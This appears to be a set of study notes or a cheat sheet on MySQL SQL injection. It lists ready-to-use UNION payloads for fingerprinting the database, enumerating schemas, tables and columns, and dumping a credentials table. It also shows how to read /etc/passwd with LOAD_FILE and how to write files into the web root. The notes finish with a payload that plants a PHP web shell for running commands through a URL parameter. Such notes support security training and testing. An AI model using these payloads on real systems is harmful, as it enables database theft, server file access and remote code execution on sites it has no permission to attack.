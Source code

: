   * To fingerprint MySQL databases, we can use the following payloads:

    * ```SELECT @@version``` - use when we have full query output
    * ```SELECT POW(1,1)``` - use when we have only numeric output
    * ```SELECT SLEEP(5)``` - blind/no output
  
  * Query to get table from another database - ```SELECT * FROM another_database.tablename```

  * We can use ```INFORMATION_SCHEMA``` database for metadata enumeration; to get names of all DBs - ```SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;```

  * We can find current database with ```SELECT database()``` query; use in payload - ```string' UNION select 1,database(),3,4#```

  * Payload example to find tables within 'dev' database - ```cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -```

  * Payload example to find columns from a table - ```cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -```

  * Payload example to fetch data from table - ```cn' UNION select 1, username, password, 4 from dev.credentials-- -```

* Reading files:

  * To find current user, we can use queries like ```SELECT USER()```, ```SELECT CURRENT_USER``` or ```SELECT user FROM mysql.user```; if it is root, it is likely to be DBA, so we have required privileges

  * To check if we have super admin privileges - ```SELECT super_priv FROM mysql.user```

  * Payload example to show only current user (root) privileges - ```cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -``` - ```FILE``` priv indicates read (and possibly write) permissions, but OS user should have priv too

  * Query example to read files - ```SELECT LOAD_FILE('/etc/passwd');``` - we can also read source code of the webpage file (view page source as this can render HTML code)

* Writing files:

  * Pre-requisites to write files to back-end server using MySQL DB:

    * User with ```FILE``` priv
    * MySQL global ```secure_file_priv``` var not enabled
    * Write access to location
  
  * Query to find value of variable (should be empty for write priv)- ```SHOW VARIABLES LIKE 'secure_file_priv';``` - as this will not work with ```UNION``` injection, we need to use a query like ```SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"```

  * Query to write output of query into a file - ```SELECT * from users INTO OUTFILE '/tmp/credentials';```

  * Query to write string into file - ```SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';```

  * Example payload for writing files - ```cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -``` (we need to know the web root directory for this to work)

  * Example payload for writing a web shell - ```cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -``` (used empty quotes instead of numbers for clean data) - we can execute commands via the '0' parameter (like ```?0=id```)
